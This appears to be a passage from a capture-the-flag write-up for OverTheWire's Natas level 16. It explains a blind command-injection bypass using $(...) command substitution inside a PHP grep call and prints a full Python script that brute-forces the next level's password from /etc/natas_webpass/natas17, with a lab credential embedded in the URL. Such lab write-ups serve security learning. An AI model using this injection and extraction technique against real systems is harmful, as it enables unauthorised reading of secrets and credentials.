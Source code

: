 Great... this might be a little though. They aren't only filtering characters needed to inject a command, they are also [escaping](http://www.hackingwithphp.com/2/6/2/escape-sequences) quote characters for __$key__. This will turn any of our input into a string.

But I have noticed that they aren't filtering the __$__ and __( )__ characters. So we might be able to inject another command into the string using [command substitution](http://wiki.bash-hackers.org/syntax/expansion/cmdsubst). 

I attempted to inject __$(grep a /etc/natas_webpass/natas17)__, I noticed that all of the dictionary words were returned. The command that I ran, looked something like this within the php code.

`passthru("grep -i \"$(grep a /etc/natas_webpass/natas17)\" dictionary.txt");`

Because all words were returned, I knew the command I injected - to __grep a__ in natas17 - was false. When I tried injecting __$(grep A /etc/natas_webpass/natas17)__, nothing was returned. This made me believe that if nothing was returned, then my command was valid and the letter A, existed in natas17's password.

So what we have to do from here is similar to 16. We need to take our python code, edit it, and try to brute force the password. I used the word __Fridays__ at the end of my command - __$(grep a /etc/natas_webpass/natas17)Fridays__ - so in case the command failed, __Fridays__ would return in the output and my script could pick up on that as __False__.

So let's go head and edit our __brute.py__ script like so:

```python
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh*@natas16.natas.labs.overthewire.org/'
trueStr = 'Output:\n<pre>\n</pre>'

for x in chars:
        r = requests.get(target+'?needle=$(grep '+x+' /etc/natas_webpass/natas17)Fridays')
        if r.content.find(trueStr) != -1:
                exist += x
                print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
        for c in exist:
                r = requests.get(target+'?needle=$(grep ^'+password+c+' /etc/natas_webpass/natas17)Fridays')
                if r.content.find(trueStr) != -1:
                        password += c
                        print 'Password: ' + password + '*' * int(32 - len(password))
                        break
                        
print 'Completed!'
```
